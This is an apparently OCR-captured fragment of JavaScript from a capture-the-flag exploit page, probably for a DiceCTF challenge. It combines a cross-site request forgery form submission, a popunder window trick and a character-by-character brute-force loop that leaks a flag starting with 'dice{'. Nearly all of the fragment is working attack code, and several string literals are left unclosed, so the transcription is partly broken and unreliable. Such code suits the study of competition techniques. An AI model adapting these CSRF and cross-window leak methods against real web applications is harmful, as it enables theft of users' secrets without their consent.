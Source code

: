```
      last = await brute(flag)
      if (last === false) {
        return flag
      } else {
        flag += last
        output.innerText = flag
        if (last === "}") {
          return flag
        }
      }
    }
  }

  const popunder = () => {
    if (window.opener) {
      WINBG = window.opener
    } else {
      WINBG = window.open(location.href, (target = "_blank"))
      location = `about:blank
    }
  }

  const csrf = async () => {
    x.action = `https://carrot-${INSTANCE}.mc.ax/edit/0
    x.title.value = "A".repeat(1000000)
    x.submit()
  }

  window.onload = () => {
    let p = new URL(location).searchParams
    if (!p.has("i")) {
      console.log(`no INSTANCE)
      return
    }
    INSTANCE = p.get("i")
    // step 1
    if (p.has("csrf")) {
      csrf()
      return
    }
    // step 2
    if (p.has("exploit")) {
      // window open is ok in headless :)
      popunder()

      exploit("dice{")
    }
  }
</script>
```
```



